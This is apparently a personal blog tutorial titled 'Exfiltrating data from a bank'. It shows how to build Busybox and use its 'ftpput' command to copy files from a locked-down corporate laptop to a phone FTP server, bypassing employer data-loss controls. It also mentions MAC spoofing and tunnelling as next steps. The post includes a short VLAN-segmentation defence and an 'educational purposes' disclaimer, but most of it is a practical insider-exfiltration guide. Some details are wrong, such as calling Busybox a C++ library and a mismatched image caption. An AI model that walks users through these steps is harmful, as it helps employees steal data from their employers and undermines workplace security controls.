 ```yaml
---
title: Exfiltrating data from a bank
author: hugo
date: 2023-04-04 09:11:00 +0200
categories: [Tutorial, security]
tags: [hacking, android, cmake]
render_with_liquid: false
---
```



> This tutorial will guide you through the process of bypassing security procedures from your employer. The author gives this example for educational purposes and does not incentivise you to apply these techniques without prior consent
{: .prompt-info }


## The art of deception

_The best defense is a good offense_. Once you're able to set this up and try it yourself you'll get a good grasp of how this attack works and what your employer should do to improve their security. Let's define what we mean by "insecure design".

<em>Insecure Design is a category of weaknesses that originate from missing or ineffective security controls. Some applications are built without security in mind. Others do have a secure design, but have implementation flaws that can lead to exploitable vulnerabilities.</em> [`A04:2021—Insecure Design`](https://www.imperva.com/learn/application-security/owasp-top-10/).

Today's exercise is a quick showcase of a C++ library called Busybox. Head over to busybox's [download page](https://busybox.net/downloads/) to build this library from source. I'll go over the setup in the next section so if that's what you came for you can skip the next couple paragraphs.

![click-jacking success](/assets/img/posts/2023-04-04_02-25.png){: width="100%"}

If you've worked in corporate environments you'll know that moving data around is impossible to do with regular USB mass storage devices. These measures are in place to prevent fraud or data theft. Most vendors like microsoft or red hat linux and citrix provide ways to block the usage of these mass storage devices as well. The picture above showcases how to enable this security measure on Windows 10.

So how would a hacker go about exfiltrating data out of this corporate environment? Well there are multiple ways of going about it and it will largely depend on your constraints. Most corporate clients these days will shield their systems and employees from the internet by using firewalls like pfsense that manage a black list of websites that go against the company's policies. You won't be surprised to know that trello, github, gitlab, excel online, google sheets, dropbox or any of those services have to be blocked in order to avoid the risk of someone (accidently) storing data on those services.

However, corporate or not most companies will need developers to work on their codebase who will lobby against these security measures to have a certain degree of openness and allow them to shamelessly copy open source projects. Compromises will therefore have to be made.

A friend told me once he remembers working at client site and suddenly being blocked from downloading his python libraries from pypi.org which is (as far as I know) the single biggest repository out there. This measure had come about because trojan and viruses were being discovered by security researchers on pypi and published in the news. Management's natural reaction was to block the whole thing alltogether. Thankfully for him, they blocked the proxy used by "pip" but forgot that you could just as well download and install your libraries from source on [pypi's](https://pypi.org/) website so that measure didn't stop or help security. The only option that would have made sense would have been to create a central repo administered by engineers who examined the software line by line before accepting external libraries. I'm sure RHEL or Microsoft have found ways to do that and probably already sell those services to corporate clients.

## Strategy and setting up your work bench

The plan is to set Busybox as a relay and send our data to our phones via the file transfer protocol (FTP). I used an app called "WiFi FTP Server" on google's play store but I'm sure any FTP app will do.

Let's now unzip the c++ library and create the Busybox executable with the next two commands.

```console
    [waz@localhost]# make defconfig
    [waz@localhost]# make
    
```

In case you want to add Busybox to your path and be able to run it anywhere on your system run `sudo make install instead`. You probably won't have superuser privileges on your corporate laptop so let's stick with our user executable.

## Sending and receiving files

Let's try sending a test file. Start up your ftp server on your phone and note down your phone's IP and port number. In order to send a file to your phone the only command you'll need is 

```console
    [waz@localhost]# echo "It works !" > data.txt
    [waz@localhost]# busybox ftpput 192.168.178.43:2221 data.txt
    
```

You can always add the -v option to the command above to have more information on what's happening under the hood.

We've just uploaded a file onto our phone but what if we needed to download some legally obtained torrents to stream a tv show during work hours? Well that can be done with the exact same process using the `ftpget` command instead. 

## Video

I like to add a small clip to showcase what was said so far. Enjoy !

<div style="padding-top: 5px; padding-bottom: 5px; position:relative; display:block; width: 100%; min-height:400px">

<iframe width="100%" height="400px" src="https://youtube.thekor.eu/uploads/netgear/Videos/chirpy/2023-04-04%2021-02-59.mp4" title="YouTube video player" frameborder="0" allow="accelerometer; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

</div>

## Conclusion

Exfiltrating data from banks is not an easy endeavour but thankfully there are holes in the security policies that make it so much easier. This phone pairing was possible because the phone was able to connect to the same network as the laptop. What a coporate client could have done to combat this type of attack is to simply seggregate its devices into different virtual local area networks (VLANs for the nerds out there). The laptops supplied to the employees have mac addresses that would assign them to VLAN 1 for example while any other employee device would connect to VLAN2. By using this setup you would prevent devices from VLAN 2 from communicating with devices on VLAN 1.

In this hypothetical scenario where the employer did implement separate VLANs the hacker could instead send his ftp requests over to a server on the internet instead or spoof the mac address of the company's laptop but that is out of scope of this tutorial. The request would probably get blocked by the ftp port being closed by a firewall or security policy anyway so let's leave that analysis for a future article. I might write a follow up to this article on how to do spoofing or how to modify the ip tables that route the laptop's traffic to re-route our ftp traffic through an SSH, VPN or SOCKSv5 connecion. 

Thank you for reading this far.

Take care
